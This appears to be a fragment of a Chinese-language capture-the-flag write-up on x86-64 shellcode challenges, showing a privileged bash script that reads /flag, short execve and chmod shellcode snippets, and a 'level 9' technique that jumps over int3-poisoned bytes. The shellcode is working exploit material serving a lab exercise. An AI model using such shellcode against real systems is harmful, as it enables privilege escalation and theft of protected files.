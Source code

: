 ```
#!/bin/bash -p
id
cat /flag
```
```
/* execve(path='c', argv=0, envp=0) */
    /* push b'c\x00' */
    push 0x63
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```
```
    push 0x63
    mov rdi, rsp
    xor esi, esi
    cdq
    mov al,0x3b
    syscall
```
## 其他方法【待补充...】
# level 9 对shellcode 执行之前修改部分数据
```c
for (int i = 0; i < shellcode_size; i++)
{
    if ((i / 10) % 2 == 1)             // (i / 10) ==   1,3,5,7,9.......,===> i = 1x,3x,5x,7x,9x......
    {
        ((unsigned char *) shellcode_mem)[i] = '\xcc';   //int3中断指令
    }
}
```
```python
    push 0x66       # 2
    mov rdi,rsp      # 3
    push 4          # 2
    jmp one
    nop           # 中间任意填充即可
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
one:
    pop rsi			# 2
    mov al,0x5a         # 2
    syscall          # 2
```
```
Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000016ec6000 | 6a 41                                         | push 0x41
0x0000000016ec6002 | 48 89 e7                                      | mov rdi, rsp
0x0000000016ec6005 | 6a 04                                         | push 4
```
